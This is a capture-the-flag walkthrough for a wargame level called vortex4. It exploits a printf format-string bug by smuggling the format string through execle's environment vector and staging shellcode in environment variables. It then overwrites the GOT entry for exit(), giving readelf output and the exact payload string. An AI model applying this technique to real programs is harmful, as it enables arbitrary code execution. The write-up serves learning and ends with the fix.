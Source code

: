 Obviously, we need to exploit the `printf(...)` call on line 8 for which we can provide an arbitrary format string. This will allow us to set an arbitrary value anywhere in a writeable memory location. 

The first difficulty is bypassing the check on line 7 which makes passing any arguments conventionally on the command line impossible. I'm using an `execle`-wrapper passing an empty argument vector `argv_` and the actual arguments in the environment vector `envp`. These two vectors are adjacent in memory, so accessing `argv[3]`  actually corresponds to accessing `envp[2]`, this is where to actually put the format string parameter. For more information about `execle`, see the [glibc manual](http://www.gnu.org/software/libc/manual/html_node/Executing-a-File.html#Executing-a-File).

The next difficulty is to locate the format string in memory. Unlike the examples from the reading material, the buffer isn't immediately located on the stack. It's necessary to get hold of it from where the environment variables are located; and that's past the lower stack boundary, towards the higher memory addresses. Here's the memory layout:

    Stack       |                 |
                +-----------------+
                |                 |
     argv  ---> +-----------------+
                | Command line    |
                | arguments       |
     environ -> +-----------------+
                | Environment     |
                | variables:      |
                | - Format string |
                | - NOP-slide     |
                | - Shellcode     |
                +-----------------+
                |                 |
    0xffffffff  +=================+   end of memory address space


I wrote some sample programs that display the memory addresses of environment variables, to get a hint of where the shellcode would be located in the process memory (see `getenv.c` and `listenv.c`). This is roughly around `0xffffdXXX`.

Next step consists in choosing a memory location that will ultimately alter `%eip`'s value. I chose to overwrite the GOT's entry for libc's `exit()`, which is called at the end of the vulnerable program:
     $ readelf -r /vortex/vortex4 
     
     Relocation section '.rel.dyn' at offset 0x28c contains 1 entries:
      Offset     Info    Type            Sym.Value  Sym. Name
     08049ff0  00000106 R_386_GLOB_DAT    00000000   __gmon_start__
     
     Relocation section '.rel.plt' at offset 0x294 contains 4 entries:
      Offset     Info    Type            Sym.Value  Sym. Name
     0804a000  00000107 R_386_JUMP_SLOT   00000000   __gmon_start__
     0804a004  00000207 R_386_JUMP_SLOT   00000000   __libc_start_main
     0804a008  00000307 R_386_JUMP_SLOT   00000000   printf
     0804a00c  00000407 R_386_JUMP_SLOT   00000000   exit
The last entry with address `0x0804a00c` is the interesting one, this will be the target address. Following is the format string used to exploit this level:

     \x0c\xa0\x04\x08\x0d\xa0\x04\x08\x0e\xa0\x04\x08\x0f\xa0\x04\x08A%108\$n%5\$0206d%109\$n%5\$032d%110\$n%111\$n

Note: to avoid such a vulnerability, you should use `printf("%s", argv[3])` instead. Refer to the suggested reading material for details.


